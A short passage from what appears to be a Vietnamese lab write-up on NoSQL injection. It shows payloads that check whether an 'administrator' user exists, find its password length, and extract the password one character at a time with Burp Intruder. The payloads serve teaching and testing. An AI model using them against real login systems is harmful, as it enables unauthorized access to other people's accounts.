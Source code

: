 Vậy là ta có thể check password! Ta sẽ thử tìm xem có username `administrator`:
![alt text](image-6.png)

Check độ dài pass: \
`administrator' && this.password.length > 1 ||'1'=='2`\
![alt text](image-7.png)

Check từ từ ta được độ dài pass là:\
![alt text](image-8.png)

Có tồn tại, bây giờ ta sẽ đi check password với intruder với cú pháp:\ 
`administrator' && this.password[0] == 'a' || 'a'=='b`\